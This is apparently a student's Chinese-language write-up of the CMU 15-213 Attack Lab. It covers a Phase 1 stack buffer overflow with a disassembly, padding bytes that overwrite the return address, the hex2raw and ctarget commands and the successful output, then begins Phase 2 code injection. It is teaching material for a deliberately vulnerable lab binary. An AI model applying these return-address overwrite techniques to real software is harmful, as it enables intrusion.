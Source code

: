```shell
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    call   0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    call   0x400e40 <exit@plt>
End of assembler dump.
```
填充的字节应为:
```
/* Phase1 */
ff ff ff ff ff ff ff ff /* %rsp~%rsp+7 */
ff ff ff ff ff ff ff ff /* %rsp+8~%rsp+15 */
ff ff ff ff ff ff ff ff /* %rsp+16~%rsp+23 */
ff ff ff ff ff ff ff ff /* %rsp+24~%rsp+31 */
ff ff ff ff ff ff ff ff /* %rsp+32~%rsp+39 */
c0 17 40                /* 0x4017c0 */
```
构造好后
```shell
./hex2raw < Phase1 > Phase1-raw 
```
执行
```shell
./ctarget -qi Phase1-raw
```
成功了!
```shell
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF C0 17 40
```




## Phase 2
这个问题不仅需要跳转到 `touch2()`函数,还需要修改%rdi寄存器的值传入我的cookie.
```c
void touch2(unsigned val){
	vlevel = 2;
	if(val==cookie){
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	}
	else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
	exit(0);
}
```
Handout提示我,这个问题需要注入代码.上课视频提到过本次lab没有使用栈随机化,这也是注入代码的前提.经过gdb调试,我发现在执行 `Gets()`函数前%rsp总是等于0x5561dc78,验证了这一点.